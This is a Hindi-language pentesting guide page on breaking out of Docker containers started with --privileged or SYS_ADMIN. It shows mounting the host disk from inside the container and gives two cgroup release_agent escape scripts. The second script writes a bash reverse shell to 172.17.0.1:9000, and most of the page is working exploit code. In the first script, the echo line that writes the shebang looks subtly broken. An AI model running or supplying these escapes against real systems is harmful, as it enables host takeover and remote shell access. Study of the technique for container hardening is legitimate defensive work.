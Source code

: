 {% content-ref url="linux-capabilities.md" %}
[linux-capabilities.md](linux-capabilities.md)
{% endcontent-ref %}

# `--privileged` फ़्लैग

--privileged फ़्लैग कंटेनर को होस्ट उपकरणों तक पहुँच देने की अनुमति देता है।

## मैं रूट के मालिक हूँ

अच्छी तरह से कॉन्फ़िगर किए गए डॉकर कंटेनर्स **fdisk -l** जैसे कमांड की अनुमति नहीं देंगे। हालांकि, गलत रूप से कॉन्फ़िगर किए गए डॉकर कमांड में --privileged फ़्लैग निर्दिष्ट होने पर, होस्ट ड्राइव देखने की अनुमति प्राप्त की जा सकती है।

![](https://bestestredteam.com/content/images/2019/08/image-16.png)

इसलिए, होस्ट मशीन पर काबिज़ होना बहुत आसान है:
```bash
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
```
और वहां! अब आप होस्ट की फ़ाइल सिस्टम तक पहुंच सकते हैं क्योंकि यह `/mnt/hola` फ़ोल्डर में माउंट हो गया है।

{% code title="प्राथमिक PoC" %}
```bash
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash

d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o;
echo $t/c >$d/release_agent;
echo "#!/bin/sh $1 >$t/o" >/c;
chmod +x /c;
sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
{% code title="दूसरा प्रमाण" %}
```bash
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/172.17.0.1/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output
```
{% endcode %}